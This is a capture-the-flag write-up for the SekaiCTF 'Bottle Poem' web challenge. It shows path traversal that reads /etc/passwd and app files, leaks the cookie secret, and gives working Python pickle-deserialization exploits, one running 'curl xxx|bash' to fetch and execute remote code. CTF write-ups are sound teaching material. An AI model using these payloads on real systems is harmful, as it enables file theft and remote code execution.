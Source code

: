 # Writeup

We're initially given the URL <http://bottle-poem.ctf.sekai.team/>:

![Screenshot of the website](website.png)

Clicking on each of the links takes us to a raw content page, each with a different poem:

![Spring](spring.png)


```
http://bottle-poem.ctf.sekai.team/show?id=spring.txt
```

Notice the `?id=` parameter. From this, it's easy to spot that this website is vulnerable to [path traversal](https://en.wikipedia.org/wiki/Path_traversal_attack). Although you can traverse the directory structure, our flag requires execute permissions, which we don't have[^1].

Let's try to access `/etc/passwd` by appending it to the `?id=` parameter:

```kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Cool, we have path traversal.

Leaking `/proc/self/cmdline`, we find out that the current process that is running is `python3 -u /app/app.py`.

We can append this directory to the `?id=` parameter to view the source code:

```py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

To read the secret `sekai` from `config.secret`, we can traverse to the `/proc/self/cwd/config/secret.py` file:

```py
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Now, you effectively have control over your cookies. However, if you read something just like `/views/admin.html` or converted yourself from a guest to admin with cookie manipulation in the `/sign` endpoint, you would find that it's a troll.

What you really need is a method of remote code execution (RCE)—if you search for documentation, you'll find that the `bottle` module's `cookie_decode()` will un-pickle/deserialize, meaning that the website is vulnerable to a deserialization attack (see this [`bottlepy` issue](https://github.com/bottlepy/bottle/issues/900)). These vulnerabilities are pretty common in Python-based web applications, and are often found in the `pickle` module. We'll utilize the `pickle` RCE to reverse a shell, and execute the flag with `./flag`.

Here is a demo exploit: 

```py
import base64, hashlib, pickle, hmac
import os

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

# Encode and sign a pickle-able object. Return a (byte) string 
def cookie_encode(data, key):
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("command")',))

obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```

Here is the same script using `bottle`. Note that you need a reverse shell:

```py
import bottle
import requests
url='http://bottle-poem.ctf.sekai.team/sign'
secret = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
class Exploit:
    def __reduce__(self):
        return (eval, ('__import__("os").popen("curl xxx|bash")',))

exp = bottle.cookie_encode(
    ('session', {"name": [Exploit()]}),
    secret
)

print(exp)
```

The flag is `SEKAI{W3lcome_To_Our_Bottle}`.

[^1]: Since there were a lot of tickets about this, we later updated the description to say:
    > No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.